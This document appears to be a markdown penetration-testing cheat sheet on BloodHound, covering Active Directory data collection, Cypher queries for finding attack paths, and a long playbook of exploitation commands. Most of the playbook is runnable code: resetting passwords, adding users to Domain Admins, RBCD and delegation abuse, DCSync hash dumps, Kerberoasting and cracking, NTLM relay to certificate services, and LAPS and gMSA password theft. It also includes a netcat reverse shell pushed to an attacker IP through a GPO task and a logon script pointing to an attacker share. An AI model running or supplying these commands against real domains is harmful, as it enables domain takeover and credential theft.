









## TL;DR

BloodHound maps Active Directory trust relationships and identifies attack paths to Domain Admin. This guide covers **everything** — from data collection to the exact exploitation commands for every path BloodHound can reveal.

**Workflow:**

```
1. Collect → SharpHound / BloodHound.py
2. Import → BloodHound GUI / BloodHound CE
3. Query → Built-in + Custom Cypher
4. Exploit → Tool-specific commands for each path
```

---

## 1. Data Collection

### SharpHound (From Windows — Domain-Joined)

```cmd
:: All collection methods (recommended for full picture)
SharpHound.exe --CollectionMethods All --Domain domain.local --ExcludeDCs

:: Stealth mode (fewer queries, less noise)
SharpHound.exe --CollectionMethods DCOnly --Domain domain.local

:: Session collection only (who is logged in where)
SharpHound.exe --CollectionMethods Session --Loop --LoopDuration 02:00:00 --LoopInterval 00:05:00

:: Specific collection methods
SharpHound.exe --CollectionMethods Group,LocalAdmin,Session,ACL,Trusts,ObjectProps,SPNTargets,Container,GPOLocalGroup

:: With credentials (non-domain-joined or different user)
SharpHound.exe --CollectionMethods All --Domain domain.local --LdapUsername user1 --LdapPassword Password123

:: PowerShell version
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain domain.local -ZipFileName output.zip
```

### BloodHound.py (From Linux — Remote)

```bash
# Standard collection
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -ns <DC_IP> -c All

# With NTLM hash (Pass-the-Hash)
bloodhound-python -u 'user1' --hashes :<NTLM_HASH> -d domain.local -ns <DC_IP> -c All

# Kerberos authentication
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -ns <DC_IP> -c All --auth-method kerberos

# Specific collection
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -ns <DC_IP> -c Group,LocalAdmin,Session,ACL,Trusts,ObjectProps

# DNS resolution issues — specify DC directly
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -dc dc01.domain.local -ns <DC_IP> -c All
```

### BOFHound (from Beacon Object Files — CobaltStrike)

```
# Collect via LDAP BOFs in CobaltStrike, convert to BloodHound format
# https://github.com/fortalice/bofhound
bofhound -o /path/to/output/ --all
```

### Collection Method Reference

| Method | Description | Noise Level |
|---|---|---|
| `All` | Everything below combined | High |
| `DCOnly` | LDAP queries to DC only (no endpoint touching) | Low |
| `Group` | Group memberships | Low |
| `LocalAdmin` | Local admin on every machine | High |
| `Session` | Active sessions (who is logged where) | Medium |
| `ACL` | ACL/ACE on AD objects | Low |
| `Trusts` | Domain/forest trusts | Low |
| `ObjectProps` | Object properties (SPN, LAPS, etc.) | Low |
| `GPOLocalGroup` | GPO-derived local group membership | Low |
| `SPNTargets` | SPN targets for Kerberoasting | Low |
| `Container` | OU/Container structure | Low |
| `DCOM` | Distributed COM users | Medium |
| `RDP` | RDP access rights | Medium |
| `PSRemote` | PS Remoting access | Medium |
| `CertServices` | AD Certificate Services (ESC1–ESC8) | Low |

---

## 2. Built-in Queries (BloodHound GUI)

### Pre-Built Analysis Queries

| Query Name | Purpose | Priority |
|---|---|---|
| **Find all Domain Admins** | Identify DA group members | Must |
| **Find Shortest Paths to Domain Admins** | Primary attack path | Must |
| **Find Principals with DCSync Rights** | Who can DCSync | Must |
| **Find Computers where Domain Users are Local Admin** | Easy lateral movement | Must |
| **Find Computers with Unsupported Operating Systems** | Legacy systems | High |
| **Find AS-REP Roastable Users** | Kerberos pre-auth disabled | High |
| **Find Kerberoastable Users** | Users with SPNs | Must |
| **Shortest Paths to Domain Admins from Kerberoastable Users** | Combined path | Must |
| **Find Kerberoastable Members of High Value Targets** | High-priority SPNs | Must |
| **Shortest Paths from Domain Users to High Value Targets** | Broadest attack surface | Must |
| **Find Dangerous Rights for Domain Users Group** | Overprivileged groups | Must |
| **List all Kerberoastable Accounts** | Full SPN user list | High |
| **Find Workstations where Domain Users can RDP** | RDP access | High |
| **Find Servers where Domain Users can RDP** | RDP access | High |
| **Find All Paths from Domain Users to Domain Admins** | All possible paths | Must |

---

## 3. Custom Cypher Queries

### 3.1 High-Priority Reconnaissance

```cypher
// Find all Domain Admins
MATCH (g:Group) WHERE g.name =~ '(?i).*DOMAIN ADMINS.*'
MATCH (g)<-[:MemberOf*1..]-(u)
RETURN u.name, labels(u)

// Find Enterprise Admins
MATCH (g:Group) WHERE g.name =~ '(?i).*ENTERPRISE ADMINS.*'
MATCH (g)<-[:MemberOf*1..]-(u)
RETURN u.name, labels(u)

// Shortest path from owned users to Domain Admin
MATCH p=shortestPath((u {owned:true})-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN p

// Shortest path from any user to Domain Admin (top 10)
MATCH p=shortestPath((u:User)-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
WHERE u<>g
RETURN p
ORDER BY length(p)
LIMIT 10

// All shortest paths from Domain Users group
MATCH p=shortestPath((g1:Group {name:'DOMAIN USERS@DOMAIN.LOCAL'})-[*1..]->(g2:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN p
```

### 3.2 Kerberos Attacks

```cypher
// All Kerberoastable users (with admin count)
MATCH (u:User) WHERE u.hasspn=true
RETURN u.name, u.displayname, u.description, u.admincount, u.serviceprincipalnames
ORDER BY u.admincount DESC

// Kerberoastable users with path to DA
MATCH (u:User {hasspn:true})
MATCH p=shortestPath((u)-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN u.name, length(p)
ORDER BY length(p)

// AS-REP Roastable users
MATCH (u:User) WHERE u.dontreqpreauth=true
RETURN u.name, u.displayname, u.description

// Unconstrained Delegation computers
MATCH (c:Computer {unconstraineddelegation:true})
WHERE NOT c.name CONTAINS 'DC'
RETURN c.name, c.operatingsystem

// Constrained Delegation — users and computers
MATCH (n) WHERE n.allowedtodelegate IS NOT NULL
RETURN n.name, n.allowedtodelegate, labels(n)

// Resource-Based Constrained Delegation (RBCD) — who can set msDS-AllowedToActOnBehalfOfOtherIdentity
MATCH (n)-[:AllowedToAct]->(c:Computer)
RETURN n.name, c.name
```

### 3.3 ACL / ACE Abuse Paths

```cypher
// Users with GenericAll on other users (password reset)
MATCH (u1:User)-[:GenericAll]->(u2:User)
RETURN u1.name, u2.name

// Users with GenericAll on groups (add member)
MATCH (u:User)-[:GenericAll]->(g:Group)
RETURN u.name, g.name

// Users with GenericAll on computers (RBCD / LAPS)
MATCH (u:User)-[:GenericAll]->(c:Computer)
RETURN u.name, c.name

// GenericWrite on users (targeted Kerberoast / shadow credentials)
MATCH (u1)-[:GenericWrite]->(u2:User)
RETURN u1.name, u2.name

// GenericWrite on computers (RBCD)
MATCH (n)-[:GenericWrite]->(c:Computer)
RETURN n.name, c.name

// WriteDACL (can modify ACL)
MATCH (u)-[:WriteDacl]->(target)
RETURN u.name, target.name, labels(target)

// WriteOwner (can take ownership)
MATCH (u)-[:WriteOwner]->(target)
RETURN u.name, target.name, labels(target)

// ForceChangePassword
MATCH (u1)-[:ForceChangePassword]->(u2:User)
RETURN u1.name, u2.name

// AddMember on groups
MATCH (u)-[:AddMember]->(g:Group)
RETURN u.name, g.name

// All outbound ACL abuse paths from owned principals
MATCH (u {owned:true})-[r]->(target)
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner','ForceChangePassword','AddMember','Owns','AllExtendedRights','AddSelf','AddAllowedToAct','WriteSPN']
RETURN u.name, type(r), target.name, labels(target)

// Users with AllExtendedRights (DCSync-capable)
MATCH (u)-[:AllExtendedRights]->(d:Domain)
RETURN u.name

// Explicit DCSync rights (GetChanges + GetChangesAll)
MATCH (u)-[:GetChanges]->(d:Domain)
MATCH (u)-[:GetChangesAll]->(d:Domain)
RETURN u.name
```

### 3.4 Lateral Movement

```cypher
// Computers where owned users have admin access
MATCH (u {owned:true})-[:AdminTo]->(c:Computer)
RETURN u.name, c.name

// Computers where owned users can RDP
MATCH (u {owned:true})-[:CanRDP]->(c:Computer)
RETURN u.name, c.name

// Computers where owned users can PSRemote
MATCH (u {owned:true})-[:CanPSRemote]->(c:Computer)
RETURN u.name, c.name

// Computers where owned users have DCOM execution
MATCH (u {owned:true})-[:ExecuteDCOM]->(c:Computer)
RETURN u.name, c.name

// Find logged-in sessions for high-value targets
MATCH (u:User)-[:HasSession]->(c:Computer)
MATCH (u)-[:MemberOf*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'})
RETURN u.name, c.name

// Computers where Domain Users are local admin
MATCH (g:Group {name:'DOMAIN USERS@DOMAIN.LOCAL'})-[:AdminTo]->(c:Computer)
RETURN c.name

// Derivative local admin (multi-hop admin paths)
MATCH p=shortestPath((u:User {owned:true})-[:AdminTo|HasSession|MemberOf*1..]->(c:Computer))
RETURN p
```

### 3.5 GPO Abuse

```cypher
// GPOs that apply to computers where DA is logged in
MATCH (g:GPO)-[:GpLink]->(ou:OU)-[:Contains*1..]->(c:Computer)
MATCH (u:User)-[:HasSession]->(c)
MATCH (u)-[:MemberOf*1..]->(da:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'})
RETURN g.name, c.name, u.name

// Users with write access to GPOs
MATCH (u)-[r]->(g:GPO)
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner']
RETURN u.name, type(r), g.name

// GPOs linked to Domain Controllers OU
MATCH (g:GPO)-[:GpLink]->(ou:OU)
WHERE ou.name =~ '(?i).*domain controllers.*'
RETURN g.name, ou.name
```

### 3.6 Certificate Services (AD CS — ESC1-ESC8)

```cypher
// Find vulnerable certificate templates (ESC1)
MATCH (t:GPO) WHERE t.type = 'Certificate Template'
MATCH (t)<-[:Enroll|AutoEnroll]-(p)
WHERE t.enrolleesuppliessubject = true
  AND t.authenticationenabled = true
  AND t.requiresmanagerapproval = false
RETURN t.name, p.name

// Find Certificate Authorities
MATCH (n:GPO) WHERE n.type = 'Enrollment Service'
RETURN n.name, n.caname, n.certificatename

// Users with enrollment rights on templates
MATCH (u)-[:Enroll]->(t:GPO {type:'Certificate Template'})
RETURN u.name, t.name

// ESC4 — Write access to certificate templates
MATCH (u)-[r]->(t:GPO {type:'Certificate Template'})
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner']
RETURN u.name, type(r), t.name
```

### 3.7 Trust Relationships

```cypher
// All domain trusts
MATCH (d1:Domain)-[r:TrustedBy]->(d2:Domain)
RETURN d1.name, r.trusttype, r.trustdirection, r.sidfiltering, d2.name

// Bidirectional trusts (most exploitable)
MATCH (d1:Domain)-[:TrustedBy]->(d2:Domain)-[:TrustedBy]->(d1)
RETURN d1.name, d2.name

// Foreign group membership
MATCH (u)-[:MemberOf]->(g:Group)
WHERE u.domain <> g.domain
RETURN u.name, u.domain, g.name, g.domain
```

### 3.8 Credential Exposure

```cypher
// Users with passwords in description
MATCH (u:User) WHERE u.description =~ '(?i).*(pass|pwd|cred|secret).*'
RETURN u.name, u.description

// Users who haven't changed password in 1+ years
MATCH (u:User) WHERE u.pwdlastset < (datetime().epochSeconds - 31536000)
  AND u.enabled = true
RETURN u.name, u.pwdlastset
ORDER BY u.pwdlastset

// Computers with LAPS enabled
MATCH (c:Computer) WHERE c.haslaps = true
RETURN c.name

// Users with ReadLAPSPassword rights
MATCH (u)-[:ReadLAPSPassword]->(c:Computer)
RETURN u.name, c.name

// Users who can read GMSA password
MATCH (u)-[:ReadGMSAPassword]->(t)
RETURN u.name, t.name
```

### 3.9 Miscellaneous High-Value

```cypher
// SQL admin accounts
MATCH (u:User)-[:SQLAdmin]->(c:Computer)
RETURN u.name, c.name

// Owned principals — mark what you've compromised
MATCH (n {owned:true})
RETURN n.name, labels(n)

// High-value targets not yet owned
MATCH (n {highvalue:true})
WHERE NOT n.owned = true
RETURN n.name, labels(n)

// Computers with unsupported OS
MATCH (c:Computer)
WHERE c.operatingsystem =~ '(?i).*(2003|2008|xp|vista|windows 7).*'
RETURN c.name, c.operatingsystem

// Find computers with SMB signing disabled
MATCH (c:Computer) WHERE c.signing = false
RETURN c.name
```

---

## 4. Attack Path Exploitation Playbook

### 4.1 GenericAll on User → Password Reset / Targeted Kerberoast



**Option A: Force Password Reset**

```powershell
# PowerView
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force) -Verbose

# net command
net user targetuser NewP@ss123! /domain

# Impacket (from Linux)
# Requires current user's credentials
```

```bash
# rpcclient
rpcclient -U 'domain/owneduser%Password123' <DC_IP> -c "setuserinfo2 targetuser 23 'NewP@ss123!'"
```

**Option B: Targeted Kerberoast (Set SPN → Roast → Crack)**

```powershell
# 1. Set SPN on target user
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='http/fake'} -Verbose

# 2. Kerberoast
Rubeus.exe kerberoast /user:targetuser /nowrap

# 3. Crack
hashcat -m 13100 hash.txt wordlist.txt

# 4. Clean up — remove SPN
Set-DomainObject -Identity targetuser -Clear serviceprincipalname -Verbose
```

**Option C: Shadow Credentials (Requires ADCS)**

```bash
# pywhisker (from Linux)
python3 pywhisker.py -d domain.local -u owneduser -p 'Password123' --target targetuser --action add --dc-ip <DC_IP>

# Then authenticate with the generated certificate
python3 gettgtpkinit.py domain.local/targetuser -cert-pfx <generated.pfx> -pfx-pass <pass> <targetuser.ccache>
```

### 4.2 GenericAll on Group → Add Member



```powershell
# PowerView
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'owneduser' -Verbose

# net command
net group "Domain Admins" owneduser /add /domain

# AD Module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'owneduser'
```

```bash
# Impacket (from Linux)
# net rpc group addmem
pth-net rpc group addmem "Domain Admins" owneduser -U 'domain/owneduser%Password123' -S <DC_IP>
```

### 4.3 GenericAll on Computer → RBCD / LAPS Read



**Option A: Resource-Based Constrained Delegation (RBCD)**

```powershell
# 1. Create a machine account (or use existing one you control)
New-MachineAccount -MachineAccount FAKECOMP -Password $(ConvertTo-SecureString 'FakePass123!' -AsPlainText -Force)

# 2. Get SID of fake computer
$sid = Get-DomainComputer FAKECOMP -Properties objectsid | Select -Expand objectsid

# 3. Set RBCD on target computer
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$sid)"
$bytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($bytes, 0)
Set-DomainObject -Identity 'TARGET-PC$' -Set @{'msds-allowedtoactonbehalfofotheridentity'=$bytes}

# 4. Get service ticket via S4U
Rubeus.exe s4u /user:FAKECOMP$ /rc4:<FAKECOMP_NTLM> /impersonateuser:administrator /msdsspn:cifs/target-pc.domain.local /ptt

# 5. Access target
dir \\target-pc.domain.local\C$
```

```bash
# From Linux with Impacket
# 1. Create machine account
impacket-addcomputer domain.local/owneduser:Password123 -computer-name 'FAKECOMP$' -computer-pass 'FakePass123!' -dc-ip <DC_IP>

# 2. Set RBCD
impacket-rbcd domain.local/owneduser:Password123 -delegate-from 'FAKECOMP$' -delegate-to 'TARGET-PC$' -action write -dc-ip <DC_IP>

# 3. Get service ticket
impacket-getST domain.local/'FAKECOMP$':'FakePass123!' -spn cifs/target-pc.domain.local -impersonate administrator -dc-ip <DC_IP>

# 4. Use ticket
export KRB5CCNAME=administrator@cifs_target-pc.domain.local@DOMAIN.LOCAL.ccache
impacket-psexec domain.local/administrator@target-pc.domain.local -k -no-pass
```

**Option B: Read LAPS Password**

```powershell
# PowerView
Get-DomainComputer target-pc -Properties ms-mcs-AdmPwd

# AD Module
Get-ADComputer target-pc -Properties ms-Mcs-AdmPwd | Select ms-Mcs-AdmPwd

# LAPSToolkit
Get-LAPSComputers
```

```bash
# From Linux
crackmapexec ldap <DC_IP> -u owneduser -p Password123 -d domain.local -M laps
```

### 4.4 GenericWrite on User → Targeted Kerberoast / Shadow Credentials

```powershell
# Targeted Kerberoast
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='http/fake'}
Rubeus.exe kerberoast /user:targetuser /nowrap

# logon script injection
Set-DomainObject -Identity targetuser -Set @{scriptpath='\\attacker\share\payload.exe'}
```

### 4.5 GenericWrite on Computer → RBCD

Same as 4.3 Option A — set `msDS-AllowedToActOnBehalfOfOtherIdentity`.

### 4.6 WriteDACL → Grant Yourself Any Permission



```powershell
# Grant GenericAll to yourself on target
Add-DomainObjectAcl -TargetIdentity targetuser -PrincipalIdentity owneduser -Rights All -Verbose

# Grant DCSync rights on domain
Add-DomainObjectAcl -TargetIdentity 'DC=domain,DC=local' -PrincipalIdentity owneduser -Rights DCSync -Verbose
```

```bash
# Impacket dacledit (from Linux)
impacket-dacledit domain.local/owneduser:Password123 -target-dn 'DC=domain,DC=local' -action write -rights DCSync -principal owneduser -dc-ip <DC_IP>
```

### 4.7 WriteOwner → Take Ownership → WriteDACL → GenericAll

```powershell
# 1. Take ownership
Set-DomainObjectOwner -Identity targetobject -OwnerIdentity owneduser -Verbose

# 2. Grant WriteDACL
Add-DomainObjectAcl -TargetIdentity targetobject -PrincipalIdentity owneduser -Rights All -Verbose

# 3. Now exploit as GenericAll
```

### 4.8 ForceChangePassword

```powershell
# PowerView
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force)
```

```bash
# rpcclient
rpcclient -U 'domain/owneduser%Password123' <DC_IP> -c "setuserinfo2 targetuser 23 'NewP@ss123!'"

# Impacket
impacket-changepasswd domain.local/targetuser:''@<DC_IP> -newpass 'NewP@ss123!' -altuser owneduser -altpass Password123
```

### 4.9 AddMember → Add to Privileged Group

```powershell
Add-DomainGroupMember -Identity 'Target Group' -Members 'owneduser'
net group "Target Group" owneduser /add /domain
```

### 4.10 DCSync Rights → Dump All Hashes



```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:Administrator
lsadump::dcsync /domain:domain.local /all /csv
```

```bash
# Impacket
impacket-secretsdump domain.local/owneduser:Password123@<DC_IP>
impacket-secretsdump domain.local/owneduser@<DC_IP> -hashes :<NTLM_HASH>

# Dump specific user
impacket-secretsdump domain.local/owneduser:Password123@<DC_IP> -just-dc-user Administrator
```

### 4.11 Kerberoasting → Crack Service Account

```powershell
# Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe kerberoast /user:svc_mssql /nowrap

# PowerView
Invoke-Kerberoast -OutputFormat Hashcat | Select Hash | Out-File hashes.txt
```

```bash
# Impacket
impacket-GetUserSPNs domain.local/owneduser:Password123 -dc-ip <DC_IP> -request

# Crack
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

### 4.12 AS-REP Roasting

```powershell
# Rubeus
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt
```

```bash
# Impacket (can enumerate without creds)
impacket-GetNPUsers domain.local/ -usersfile users.txt -dc-ip <DC_IP> -format hashcat -outputfile asrep.txt

# With credentials
impacket-GetNPUsers domain.local/owneduser:Password123 -dc-ip <DC_IP> -request

# Crack
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
```

### 4.13 Unconstrained Delegation → Capture TGT



```powershell
# 1. Monitor for TGTs on compromised computer
Rubeus.exe monitor /interval:5 /nowrap

# 2. Trigger auth from DC (PrinterBug)
SpoolSample.exe DC01.domain.local COMPROMISED-PC.domain.local

# 3. Use captured TGT
Rubeus.exe ptt /ticket:<BASE64_TGT>

# 4. DCSync
mimikatz # lsadump::dcsync /domain:domain.local /user:krbtgt
```

```bash
# PetitPotam (from Linux)
python3 PetitPotam.py COMPROMISED-PC DC01.domain.local

# Krbrelayx (listener)
python3 krbrelayx.py -hashes :<MACHINE_HASH>
```

### 4.14 Constrained Delegation → Impersonate Any User

```powershell
# S4U attack — impersonate admin to allowed service
Rubeus.exe s4u /user:svc_constrained /rc4:<NTLM> /impersonateuser:administrator /msdsspn:cifs/target.domain.local /ptt

# Alternative service (service name is not enforced)
Rubeus.exe s4u /user:svc_constrained /rc4:<NTLM> /impersonateuser:administrator /msdsspn:cifs/target.domain.local /altservice:ldap,http,host /ptt
```

```bash
# Impacket
impacket-getST domain.local/svc_constrained:Password123 -spn cifs/target.domain.local -impersonate administrator -dc-ip <DC_IP>
export KRB5CCNAME=administrator.ccache
impacket-psexec domain.local/administrator@target.domain.local -k -no-pass
```

### 4.15 GPO Abuse → Code Execution on Linked Machines

```powershell
# SharpGPOAbuse — add immediate scheduled task
SharpGPOAbuse.exe --AddComputerTask --TaskName "Reverse Shell" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe" --GPOName "Vulnerable GPO"

# Add local admin via GPO
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount owneduser --GPOName "Vulnerable GPO"

# Force GPO update
gpupdate /force
```

```bash
# pyGPOAbuse (from Linux)
python3 pygpoabuse.py domain.local/owneduser:Password123 -gpo-id "GPO_GUID" -command 'cmd /c net localgroup administrators owneduser /add' -dc-ip <DC_IP>
```

### 4.16 AD CS Certificate Abuse (ESC1–ESC8)



**ESC1 — Enrollee Supplies Subject + Authentication EKU**

```bash
# Find vulnerable templates
certipy find -u owneduser@domain.local -p Password123 -dc-ip <DC_IP> -vulnerable

# Request cert as Domain Admin
certipy req -u owneduser@domain.local -p Password123 -ca 'YOURCA' -template 'VulnTemplate' -upn 'administrator@domain.local' -dc-ip <DC_IP>

# Authenticate with cert
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>

# Now have admin NTLM hash → DCSync
impacket-secretsdump domain.local/administrator@<DC_IP> -hashes :<NTLM>
```

**ESC8 — NTLM Relay to AD CS Web Enrollment**

```bash
# Start relay
impacket-ntlmrelayx -t http://<CA_IP>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# Coerce DC authentication
python3 PetitPotam.py <ATTACKER_IP> <DC_IP>

# Use captured cert
certipy auth -pfx dc01.pfx -dc-ip <DC_IP>
```

### 4.17 ReadLAPSPassword → Local Admin

```powershell
Get-DomainComputer target-pc -Properties ms-mcs-AdmPwd
```

```bash
crackmapexec ldap <DC_IP> -u owneduser -p Password123 -d domain.local -M laps

# Login with LAPS password
crackmapexec smb <TARGET_IP> -u Administrator -p '<LAPS_PASSWORD>' --local-auth
impacket-psexec ./Administrator:'<LAPS_PASSWORD>'@<TARGET_IP>
```

### 4.18 ReadGMSAPassword → Service Account

```powershell
# PowerShell
$gmsa = Get-ADServiceAccount -Identity svc_gmsa -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
$secpwd = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```bash
# From Linux
python3 gMSADumper.py -u owneduser -p Password123 -d domain.local -l <DC_IP>

# Impacket
impacket-ntlmrelayx --dump-gmsa
```

